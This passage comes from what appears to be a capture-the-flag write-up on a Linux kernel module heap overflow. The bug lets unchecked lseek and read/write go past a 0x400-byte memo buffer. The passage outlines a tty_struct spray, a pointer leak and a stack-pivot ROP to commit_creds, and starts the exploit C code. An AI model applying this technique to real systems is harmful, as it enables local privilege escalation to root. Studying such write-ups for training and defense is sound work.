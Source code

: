 ```c
}
```

+ Lets us `lseek` to the offset in our `memo`.

# So where is the bug??

Individually , these functions are safe. But, if we combine the `llseek` and `read`, `write`, we leverage a sweet heap overflow. As you can see, the `mod_read` and `mod_write` don't have any checks for out of bounds `lseek`, hence , what we can do is, seek to the end of the memo and read or write 0x400 bytes.

# Exploitation

The idea here is, to have a kernel structure getting allocated just after our memo, so that we can read and write to it. Since, our `memo` is of size `0x400` , it will be allocated from the `kmalloc-1024` pool, and one super famous kernel structure which is also allocated from the `kmalloc-1024` pool is the good old `tty_struct`.

So, now the plan is -

+ Spray `kmalloc-1024` and get a tty structure opened near our memo.
+ `lseek` and `read` from the `tty_struct`. Leak heap and kernel function pointer.
+ Similar, write to the same function pointer, the address of heap which has the gadget to pivot stack to heap.
+ Calling `ioctl` triggers our `ptx_unix98_ops` function pointer giving us rip control to pivot stack to rop on heap.

Let's script the Leak part.

```c
#define _GNU_SOURCE

#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <errno.h>
#include <stdlib.h>
#include <sys/msg.h>
#include <sys/ioctl.h>
#include <sys/mman.h>
#include <sys/syscall.h>
#include <string.h>
#include <stdlib.h>

#define INVALID -1

int ptmx;
unsigned long user_cs,user_sp,user_ss,user_rflags,fd;
unsigned long kbase,kheap;
unsigned long leak_buf[0x400/8];
unsigned long push_r12_pop_rsp;
unsigned long pop_rdi,prepare_kernel_cred,commit_creds,pop_rcx,mov_rdi_rax,kpti_trampoline;

void save_state(){
    __asm__(".intel_syntax noprefix;"
            "mov user_cs,cs;"
            "mov user_ss,ss;"
            "mov user_sp,rsp;"
            "pushf;"
            "pop user_rflags;"
            ".att_syntax;");
```